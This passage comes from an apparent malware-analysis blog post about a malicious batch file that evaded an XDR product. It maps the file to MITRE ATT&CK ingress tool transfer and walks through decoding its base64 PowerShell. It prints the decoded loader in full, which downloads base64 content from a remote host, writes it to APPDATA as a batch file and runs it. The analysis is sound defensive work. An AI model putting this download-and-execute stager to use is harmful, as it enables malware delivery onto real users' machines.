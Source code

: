 - **T1105 – Ingress Tool Transfer**
    
    Since the PowerShell command appears to reference external content (indicated by the presence of `System.Net.WebClient`-style activity in the encoding), this may involve downloading additional payloads from a remote server.
    

This combination of scripting, obfuscation, and external delivery strongly indicates a malicious intent behind the file `cyecsk.bat`. Although it was not flagged by the XDR.

## 3.3 Decoding the Base64 Observed in the BAT File Executed via PowerShell

While the presence of base64-encoded commands in PowerShell is a common tactic used by adversaries to evade detection, decoding these strings is essential for understanding the intent of the payload. Analysts can decode base64 using any tool of their choice command-line utilities, scripting languages, or online tools.

For the purpose of this blog, we use the online decoder [[10]](https://emn178.github.io/online-tools/base64_decode.html). As shown in **Figure 10**, we successfully decoded the base64 string into a readable PowerShell script.

![Fig 10: Decoding Base64 Content](/assets/images/Elastic/Fig%2010%20-%20decode%20base64.png)

The decoded output is as follows:

```
$base64 = (iwr -Uri 'https://files.example.me/c6h43u.txt').Content
$bytes = [System.Convert]::FromBase64String($base64)
$path = [System.IO.Path]::Combine($env:APPDATA, 'masondlpn5k.bat')
[System.IO.File]::WriteAllBytes($path, $bytes)
Start-Process -FilePath $path
```

## 3.3.1 Threat Context and MITRE ATT&CK Mapping

This activity demonstrates a layered execution approach typical of many malware loaders. It also aligns with several MITRE ATT&CK techniques [[11]](https://www.ibm.com/think/topics/mitre-attack)
